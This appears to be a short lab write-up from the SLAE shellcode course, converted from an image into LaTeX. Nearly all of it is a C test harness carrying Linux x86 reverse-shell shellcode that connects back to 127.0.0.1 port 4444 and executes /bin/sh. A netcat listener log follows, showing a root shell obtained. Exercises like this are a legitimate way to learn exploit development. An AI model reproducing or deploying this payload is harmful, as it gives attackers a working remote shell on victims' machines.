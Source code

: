 \documentclass[11pt]{article}
\begin{document}
\#+NAME shellcode.c
\begin{verbatim}
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1"
"\xcd\x80\x31\xff\x89\xc7\x31\xc0\xb0\x66\x31\xc9\xb9\x80\x1\x1\x2"
"\x81\xe9\x01\x01\x01\x01\x51\x66\x68\x11\x5c\x43\x66\x53\x89\xe1"
"\x6a\x10\x51\x57\x89\xe1\x43\xcd\x80\x31\xc9\xb1\x02\x31\xc0\xb0"
"\x3f\xcd\x80\x49\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f"
"\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

  int (*ret)() = (int(*)())code;

  ret();

}
\end{verbatim}

Setup our netcat listener and:

\begin{verbatim}
root@funos:~/shared/SLAE/slae/exercise2# nc -nlvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37311
id
uid=0(root) gid=0(root) groups=0(root)
\end{verbatim}

Presto! We have a reverse shell connection!
\end{document}
